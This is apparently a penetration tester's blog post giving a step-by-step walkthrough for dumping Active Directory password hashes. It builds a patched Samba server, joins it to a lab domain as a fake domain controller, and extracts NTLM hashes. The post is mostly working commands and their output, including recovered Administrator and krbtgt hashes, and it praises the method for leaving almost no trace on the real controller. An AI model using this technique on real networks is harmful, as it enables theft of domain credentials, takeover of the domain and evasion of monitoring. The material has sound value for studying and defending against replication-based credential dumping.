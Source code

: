 = Dumping NTDS.dit domain hashes using Samba
:hp-tags: samba, ntds.dit, passwords 

So there was this blog post that talking about a number of ways to dump windows credentials by https://twitter.com/lanjelot[@lanjelot] [definitly someone to follow] - here: https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/ and at the very bottom of this post it says "**AD Replication (EXPERIMENTAL)**"

What it boils down to is if you can position a system that can do DNS resolution to the target domain, and perform some other UDP traffic, you can fake join a samba server you control to a domain and it **_doesn't require code execution in any way on the domain controller_**.

NOTE: I am not doing this on a Kali Linux box, there is already an install of Samba there and I didn't want to try uninstalling or modifying the one installed.

First, you need this patch:

`wget http://files.securusglobal.com/samba-4.1.0_replication-only-patch.txt`

and Samba 4.1.0

`wget http://ftp.samba.org/pub/samba/stable/samba-4.1.0.tar.gz`

You will probably also require some dependencies to be installed:

`apt-get install python2.7-dev python-samba libacl1-dev build-essential libldap2-dev libkrb5-dev attr`

Since the patch is kinda wonky, you need to make a `src` directory and extract samba into there first. Then apply the patch in whatever directory is above src

```
mkdir src
mv samba-4.1.0.tar.gz src/
cd src/
tar zxvf samba-4.1.0.tar.gz
cd /root/
```

So it would look like this:
```
samba-4.1.0_replication-only-patch.txt
src/
src/samba-4.1.0/
```
then run `patch -p0 < samba-4.1.0_replication-only-patch.txt`

```
cd ./src/samba-4.1.0/
./configure
make
make install
```
Prepare the box:
```
rm -rf /var/lib/samba; mkdir /var/lib/samba; rm -f /etc/samba/smb.conf
```
Next you need to make sure you are resolving correctly (if you can't resolve the SRV record `_ldap._tcp.sittingduck.info` (sittingduck.info being the domain) then this isn't going to work.
```
echo nameserver 192.168.92.37 > /etc/resolv.conf # this is the IP address of the DC
```

Then start the clone:
```
/usr/local/samba/bin/samba-tool domain join sittingduck.info DC -U sittingduck\\administrator
```

Looks like this:
```
root@sambabox:~/src/samba-4.1.0# /usr/local/samba/bin/samba-tool domain join sittingduck.info DC -U sittingduck\\administrator
Finding a writeable DC for domain 'sittingduck.info'
Found DC 2K8DC.sittingduck.info
Password for [SITTINGDUCK\administrator]:
workgroup is SITTINGDUCK
realm is sittingduck.info
Calling bare provision
No IPv6 address will be assigned
Provision OK for domain DN DC=sittingduck,DC=info
Starting replication
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[402] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[804] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[1206] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[1521] linked_values[0]
Analyze and apply schema objects
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[402] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[804] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1206] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1608] linked_values[1]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1614] linked_values[11]
Replicating critical objects from the base DN of the domain
Partition[DC=sittingduck,DC=info] objects[100] linked_values[24]
Partition[DC=sittingduck,DC=info] objects[353] linked_values[27]
Done with always replicated NC (base, config, schema)
Committing SAM database
descriptor_sd_propagation_recursive: DC=DomainDnsZones,DC=sittingduck,DC=info not found under DC=sittingduck,DC=info
descriptor_sd_propagation_recursive: DC=ForestDnsZones,DC=sittingduck,DC=info not found under DC=sittingduck,DC=info
Joined domain SITTINGDUCK (SID S-1-5-21-3147519476-3247671789-820278723) as a DC

```

Then to get the hashes:
```
root@sambabox:~# /usr/local/samba/bin/pdbedit -L -w
2K8DC$:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:CB14F1166BBE1749AC0FB40240C5DC30:[S          ]:LCT-530FC425:
Administrator:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[U          ]:LCT-531006A4:
krbtgt:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:F2EE6AB6F40810169E0E46B126CEFBEF:[DU         ]:LCT-530FC3FF:
nobody:65534:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:[U          ]:LCT-00000000:
jdoe:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[UX         ]:LCT-530FC5FF:
uber:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[UX         ]:LCT-53101261:

```

Or you can do it with history:
```
root@sambabox:~# python samba-pwdump.py /usr/local/samba/private/sam.ldb.d/DC\=SITTINGDUCK\,DC\=INFO.ldb -history
SAMBACLONE$:1104:::::
2K8DC$:1000::cb14f1166bbe1749ac0fb40240c5dc30:::
Administrator:500::88e4d9fabaecf3dec18dd80905521b29:::
krbtgt:502::f2ee6ab6f40810169e0e46b126cefbef:::
Guest:501:::::
jdoe:1103::88e4d9fabaecf3dec18dd80905521b29:::
uber:1105::88e4d9fabaecf3dec18dd80905521b29:::
uber_history0:1105:444d1edcad01ae08f49f073e12e8cc14:88e4d9fabaecf3dec18dd80905521b29:::
```


Game over. The great thing is that it never actually shows up as a joined box in the domain, and as far as I can tell the only log on the real DC is the login success of a domain admin. Plus one of the huge benefits to this method is that once you have the database Samba makes it really easy to query information like group membership or users info after the fact, not just hashes.

